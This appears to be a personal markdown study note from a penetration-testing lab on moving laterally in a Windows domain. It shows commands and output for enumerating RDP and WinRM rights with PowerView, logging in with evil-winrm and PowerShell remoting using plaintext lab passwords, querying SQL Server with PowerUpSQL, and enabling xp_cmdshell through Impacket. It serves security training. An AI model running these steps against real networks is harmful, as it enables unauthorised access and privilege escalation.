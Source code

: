 ```yaml
---
title: a-Privileged Access
draft: false
tags:
  - rdp
  - psremoting
  - mssql
  - winrm
  - powerupsql
---
```

Let's assume we are in the domain. We want to advance our position further by moving laterally or vertically. 

Typically, if compromise local admin user, we will perform PtH but if that is not the case, now what?

*What if we don't yet have local admin rights on any hosts in the domain?*

We can abuse following to move around a Windows a domain:

- RDP
- PowerShell Remoting - PSRemoting or WinRM
- MSSQL Server

## Remote Desktop

Let's say we compromised user with RDP right on host. 

We can possibly:

- Launch further attacks
- Escalate privilege and obtain creds for higher privileged user
- Pillage the host for sensitive data


### PowerView
#### RDP Members Check

Let's use PowerView's `Get-netLocalGroupMember` to enumerate members of Remote Desktop Users group on a given host. 

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Desktop Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Desktop Users
MemberName   : INLANEFREIGHT\Domain Users
SID          : S-1-5-21-3842939050-3880317879-2865463114-513
IsGroup      : True
IsDomain     : UNKNOWN
```

We can see that all members in the domain can RDP to this host.

We can also use BloodHound for this purpose. First thing to check with Bloodhound is whether domain users group have local admin rights or execution rights such as rdp and winrm.

## WinRM

### PowerView

#### WinRM Members Check

Let's check Remote Management Users members:

```powershell-session
PS C:\htb> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"

ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

User forend has winrm right over MS01.

### WinRM from Windows

```powershell-session
PS C:\htb> $password = ConvertTo-SecureString "Klmcargo2" -AsPlainText -Force
PS C:\htb> $cred = new-object System.Management.Automation.PSCredential ("INLANEFREIGHT\forend", $password)
PS C:\htb> Enter-PSSession -ComputerName ACADEMY-EA-MS01 -Credential $cred

[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> hostname
ACADEMY-EA-MS01
[ACADEMY-EA-MS01]: PS C:\Users\forend\Documents> Exit-PSSession
PS C:\htb> 
```

### WinRM from Linux

```shell-session
[!bash!]$ evil-winrm -i 10.129.201.234 -u forend

Enter Password: 

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\forend.INLANEFREIGHT\Documents> hostname
ACADEMY-EA-MS01
```

## SQL Server Admin

It is common to find user and service accounts set up with sysadmin privilege on a given SQL server instance. 

### PowerUpSQL

Let's use PowerUpSQL to enumerate MSSQL isntances:

```powershell-session
PS C:\htb> cd .\PowerUpSQL\
PS C:\htb>  Import-Module .\PowerUpSQL.ps1
PS C:\htb>  Get-SQLInstanceDomain

ComputerName     : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL
Instance         : ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL,1433
DomainAccountSid : 1500000521000170152142291832437223174127203170152400
DomainAccount    : damundsen
DomainAccountCn  : Dana Amundsen
Service          : MSSQLSvc
Spn              : MSSQLSvc/ACADEMY-EA-DB01.INLANEFREIGHT.LOCAL:1433
LastLogon        : 4/6/2022 11:59 AM
```

We can authenticate against the remote SQL server host and run custom queries as such:

```powershell-session
PS C:\htb>  Get-SQLQuery -Verbose -Instance "172.16.5.150,1433" -username "inlanefreight\damundsen" -password "SQL1234!" -query 'Select @@version'

VERBOSE: 172.16.5.150,1433 : Connection Success.

Column1
-------
Microsoft SQL Server 2017 (RTM) - 14.0.1000.169 (X64) ...
```

### mssqlclient.py

```shell-session
[!bash!]$ mssqlclient.py INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
Impacket v0.9.25.dev1+20220311.121550.1271d369 - Copyright 2021 SecureAuth Corporation

Password:
[*] Encryption required, switching to TLS
[*] ENVCHANGE(DATABASE): Old Value: master, New Value: master
[*] ENVCHANGE(LANGUAGE): Old Value: , New Value: us_english
[*] ENVCHANGE(PACKETSIZE): Old Value: 4096, New Value: 16192
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed database context to 'master'.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 1: Changed language setting to us_english.
[*] ACK: Result: 1 - Microsoft SQL Server (140 3232) 
[!] Press help for extra shell commands
```

Try enabling `xp_cmdshell`:

```shell-session
SQL> enable_xp_cmdshell

[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'show advanced options' changed from 0 to 1. Run the RECONFIGURE statement to install.
[*] INFO(ACADEMY-EA-DB01\SQLEXPRESS): Line 185: Configuration option 'xp_cmdshell' changed from 0 to 1. Run the RECONFIGURE statement to install.
```

We can enumerate our rights as such:

```shell-session
xp_cmdshell whoami /priv
```

## Moving On

Here we talked about lateral movement techniques in AD. 
